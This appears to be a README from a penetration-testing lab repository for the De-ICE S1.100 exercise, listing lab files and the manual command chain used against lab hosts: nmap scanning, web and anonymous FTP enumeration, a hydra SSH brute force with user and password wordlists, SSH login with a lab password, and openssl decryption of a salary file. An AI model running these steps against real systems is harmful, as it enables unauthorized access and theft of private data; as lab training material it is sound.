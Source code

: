 # De-ICE S1.100 Lab Files

This directory contains files for the penetration testing lab:

## Generated Files
- `users.txt` - Common usernames extracted from target
- `passwords.txt` - Weak password wordlist  
- `salary_dec2003.csv.enc` - Encrypted salary file from FTP
- `salary_dec2003.csv` - Decrypted salary data

## Attacker Scripts
Located in `/root/tools/`:
- `recon.sh` - Automated reconnaissance 
- `exploit.sh` - Exploitation automation

## Manual Commands

### Network Discovery
```bash
nmap -sn 192.168.100.0/24
nmap -sC -sV target-web target-ssh target-ftp
```

### Web Enumeration  
```bash
curl http://target-web
curl -s http://target-web | grep -E "(Name|Email)"
```

### FTP Enumeration
```bash
ftp target-ftp
# User: anonymous, Pass: anonymous
# Navigate to incoming/ directory
```

### SSH Brute Force
```bash
hydra -L users.txt -P passwords.txt target-ssh ssh -s 2222
```

### SSH Access
```bash
ssh -p 2222 aadams@target-ssh
# Password: nostaw
```

### File Decryption
```bash
openssl enc -aes-256-cbc -d -salt -in salary_dec2003.csv.enc -out salary.csv -k "HeadOfSecurity"
```